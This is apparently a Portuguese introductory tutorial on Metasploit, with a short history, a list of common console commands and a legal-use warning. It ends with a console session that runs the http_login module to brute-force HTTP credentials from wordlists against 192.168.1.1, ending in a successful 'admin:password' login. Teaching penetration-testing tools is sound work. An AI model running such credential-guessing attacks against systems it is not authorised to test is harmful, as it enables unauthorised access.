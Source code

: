 ```yaml
---
title: Utilizando Metasploit, resumo básico do funcionamento.
description: O Metasploit é um software de exploração de vulnerabilidades de
  código aberto que pode ser usado para realizar testes de penetração e
  desenvolver exploits. Ele foi criado por HD Moore em 2003 e é mantido pela
  empresa de segurança cibernética Rapid7
author: Endriw Villa
date: 2022-12-21T19:18:16.260Z
tags:
  - Tags
---
```

O **Metasploit** é um software de exploração de vulnerabilidades de código aberto que pode ser usado para realizar testes de penetração e desenvolver **exploits**. Ele foi criado por HD Moore em 2003 e é mantido pela empresa de segurança cibernética Rapid7. O Metasploit possui uma ampla biblioteca de exploits que podem ser usados para comprometer sistemas vulneráveis, bem como ferramentas de auxílio à exploração e post-exploração. Além disso, o Metasploit também inclui recursos para criar payloads personalizados e para fazer o gerenciamento de sessões de exploit. Ele é amplamente utilizado por profissionais de segurança cibernética para testar a segurança de sistemas e aplicativos.

Para utilizar o Metasploit, primeiro é necessário instalá-lo em seu sistema. Isso pode ser feito baixando o código fonte do Metasploit a partir do GitHub e compilando-o manualmente, ou instalando uma versão pré-compilada disponível em alguns repositórios de pacotes de software. Depois de instalado, o Metasploit pode ser iniciado a partir da linha de comando.

Uma vez iniciado o Metasploit, você pode começar a usá-lo digitando comandos na linha de comando. Por exemplo, para selecionar um exploit específico para ser usado, você pode usar o comando `use` seguido pelo nome do exploit. Em seguida, você pode ver as opções disponíveis para o exploit selecionado usando o comando `show options`, e definir valores para essas opções usando o comando `set`. Quando estiver pronto, você pode executar o exploit selecionado contra o alvo especificado usando o comando `exploit`.

O **Metasploit** também inclui várias ferramentas de auxílio à exploração e de post-exploração que podem ser usadas para obter informações adicionais sobre o sistema alvo e para realizar ações adicionais após a exploração bem-sucedida. Para selecionar e usar essas ferramentas, o processo é semelhante ao descrito acima para exploits.

É importante lembrar que o uso do Metasploit deve ser feito com cuidado e somente em sistemas e aplicativos que seja permitido testar. O uso indevido do Metasploit pode causar danos a sistemas alvo e é considerado ilegal em muitas jurisdições. Portanto, é importante conhecer e seguir as leis e regulamentos locais ao usar o Metasploit.

Existem muitos comandos diferentes disponíveis no Metasploit, e aqui estão alguns dos comandos mais comuns:

`use`: Seleciona um módulo de exploit ou de auxílio à exploração específico para ser usado.

`show options`: Exibe as opções e parâmetros disponíveis para o módulo selecionado atualmente.

`set`: Define um valor para uma opção específica do módulo selecionado atualmente.

`exploit`: Executa o exploit selecionado atualmente contra o alvo especificado.

`sessions`: Gerencia sessões de exploit ativas, incluindo a visualização e interação com elas.

`search`: Pesquisa na biblioteca de exploits por palavras-chave específicas.

`load`: Carrega um plug-in personalizado no Metasploit.

`help`: Exibe ajuda sobre um comando específico ou uma lista de todos os comandos disponíveis.

Esses são apenas alguns exemplos de comandos do Metasploit. Para obter uma lista completa e detalhada dos comandos disponíveis, é recomendável consultar a documentação do Metasploit ou usar o comando `help` no próprio software.

Aqui está um exemplo de comando do Metasploit que pode ser usado para realizar um ataque de dicionário simples em um sistema alvo:

```terminal
msf5 > use auxiliary/scanner/http/http_login
msf5 auxiliary(scanner/http/http_login) > show options

Module options (auxiliary/scanner/http/http_login):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BLANK_PASSWORDS   true       yes       Try blank passwords for all users
   BRUTEFORCE_SPEED  5          yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false      no        Try each user/password couple stored in the current database
   DB_ALL_PASS      false      no        Add all passwords in the current database to the list
   DB_ALL_USERS     false      no        Add all users in the current database to the list
   PASSWORD                  no        A specific password to authenticate with
   PASS_FILE                 no        File containing passwords, one per line
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   Realm                     no        The realm to probe
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                     80        The target port
   STOP_ON_SUCCESS   false      yes       Stop guessing when a credential works for a host
   TARGETURI                /         The base path to the web application
   USERNAME                  no        A specific username to authenticate with
   USERPASS_FILE                   no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false      no        Try the username as the password for all users
   USER_FILE                  no        File containing usernames, one per line
   USER_AS_PASS_FILE  false      no        Try the username as the password for each user specified in USER_FILE

msf5 auxiliary(scanner/http/http_login) > set USER_FILE /root/usernames.txt
USER_FILE => /root/usernames.txt
msf5 auxiliary(scanner/http/http_login) > set PASS_FILE /root/passwords.txt
PASS_FILE => /root/passwords.txt
msf5 auxiliary(scanner/http/http_login) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(scanner/http/http_login) > exploit

[*] 192.168.1.1:80 - Starting HTTP login brute force
[*] 192.168.1.1:80 - The target is using BASIC authentication
[*] 192.168.1.1:80 - Trying username "admin" with password "password"
[+] 192.168.1.1:80 - Login successful: "admin:password"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/http_login) >

```
